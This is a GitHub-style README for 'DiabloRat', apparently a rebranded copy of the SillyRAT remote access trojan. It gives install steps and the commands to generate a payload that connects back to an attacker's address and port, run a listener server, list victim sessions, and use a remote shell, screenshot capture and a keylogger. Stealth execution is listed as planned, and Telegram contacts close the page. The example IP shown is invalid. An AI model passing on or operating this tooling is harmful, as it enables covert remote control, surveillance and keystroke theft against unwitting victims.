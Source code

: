 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    DiabloRat
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/hash3liZer/DiabloRat/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>


## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/SWICYBERLWA7DA/DiabloRat.git
$ cd DiabloRat/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```


Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89171634-152cdf00-d59f-11ea-83a6-0344f370113a.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89172191-d9464980-d59f-11ea-988c-9986b52642e7.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support
Chanel telegram: https://t.me/digitalactivityhaven 
Telegran =====> @SWICYBERLWA7DA1
